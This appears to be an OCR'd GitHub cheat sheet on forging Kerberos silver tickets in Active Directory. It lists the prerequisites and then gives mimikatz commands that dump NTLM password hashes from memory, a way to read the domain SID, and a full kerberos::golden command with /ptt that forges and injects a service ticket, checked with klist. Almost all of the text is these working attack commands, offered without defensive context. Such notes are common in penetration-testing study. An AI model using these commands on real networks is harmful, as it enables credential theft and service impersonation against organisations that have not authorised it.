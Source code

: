## Silver Tickets
To create a silver ticket, requirement:
1. SPN Password Hash (Requires local administrator)
2. Domain SID
3. Target SPN
```
To obtain SPN Password Hash
Launch powershell as administrator and run mimikatz

privilege::debug
sekurlsa::logonpasswords
extract ntlm hash
-----------------------------------------------------------
To obtain Domain SID
whoami /user and omit the digits after the last -
-----------------------------------------------------------
For target SPN, the format is [service]/name@domainname:port
-----------------------------------------------------------
Full Format to create the forged ticket
kerberos::golden /sid:DomainSID /domain:domainname /ptt /target:name@domainname /service:service /rc4:ntlmhash /user:username


------------------------------------------------------------
To check if the ticket submitted successfully
klist
```